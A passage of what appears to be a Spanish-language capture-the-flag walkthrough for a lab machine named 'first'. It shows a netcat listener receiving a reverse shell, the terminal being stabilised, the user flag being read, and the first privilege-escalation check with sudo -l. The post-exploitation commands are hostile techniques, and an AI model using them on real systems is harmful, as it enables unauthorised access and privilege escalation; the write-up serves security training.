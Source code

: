 Bien, a tener en cuenta que la reverse shell ya está editada con mi IP y solo falta ponernos en escucha con Netcat a través del puerto que hayamos configurado y hacer clic en la misma desde el navegador. Tras conectarnos realizaremos el tratamiento de la terminal para tenerla completamente operativa y sin cortes:

~~~
❯ nc -nlvp 1234
listening on [any] 1234 ...
connect to [192.168.0.24] from (UNKNOWN) [192.168.0.21] 49006
Linux first 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 20:21:35 up  2:05,  0 users,  load average: 0.00, 0.00, 0.47
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
www-data@first:/$ ^Z
zsh: suspended  nc -nlvp 1234
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm
~~~
~~~bash
www-data@first:/$ export TERM=xterm
www-data@first:/$ export SHELL=bash
www-data@first:/$ stty columns 184 rows 44
www-data@first:/$ cd /home
www-data@first:/home$ ls
first
www-data@first:/home$ cd first
www-data@first:/home/first$ ls
user.txt
www-data@first:/home/first$ cat user.txt
~~~

Y con esto ya tenemos la flag de user.


## Escalada de privilegios

Como hacemos siempre, si miramos la lista de permisos que tenemos para usar privilegios de otro usuario vemos lo siguiente

~~~bash
www-data@first:/home/first$ sudo -l
Matching Defaults entries for www-data on first:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on first:
    (first : first) NOPASSWD: /bin/neofetch
~~~
